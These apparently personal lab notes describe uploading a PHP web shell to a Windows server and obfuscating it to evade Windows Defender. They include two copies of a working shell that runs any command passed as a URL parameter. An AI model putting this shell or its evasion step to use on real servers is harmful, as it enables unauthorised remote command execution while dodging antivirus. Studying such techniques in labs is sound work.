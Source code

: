 
We have an upload point which we can use to upload PHP scripts.
But will assume for the time being that Windows Defender is free and comes pre-installed with 
Windows Server.


Will use the tool named https://www.gaijin.at/en/tools/php-obfuscator for AV Evasion

![[Pasted image 20240114165402.png | 500]]

```
<?php $x0=$_GET[base64_decode('d3JlYXRo')];if(isset($x0)){echo base64_decode('PHByZT4=').shell_exec($x0).base64_decode('PC9wcmU+');}die();?>
```
![[Pasted image 20240114165445.png]]

But but but................................................. will have to prevent them from being interpreted as bash variables.
```
<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>
```

